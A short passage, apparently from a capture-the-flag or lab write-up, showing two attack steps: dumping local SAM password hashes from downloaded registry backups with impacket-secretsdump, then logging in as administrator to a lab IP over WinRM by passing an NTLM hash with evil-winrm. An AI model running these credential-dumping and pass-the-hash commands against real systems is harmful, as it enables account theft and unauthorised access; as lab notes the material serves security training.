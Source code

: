 Using downloaded `system.bak` and `sam.bak`, dumped local SAM hashes
```bash
impacket-secretsdump -sam sam.bak -system system.bak local
```
![[Pasted image 20240814115136.png]]

Using the admin hash
```bash
evil-winrm -i 10.10.54.53 -u 'administrator' -H "6bc99ede9edcfecf9662fb0c0ddcfa7a"
```
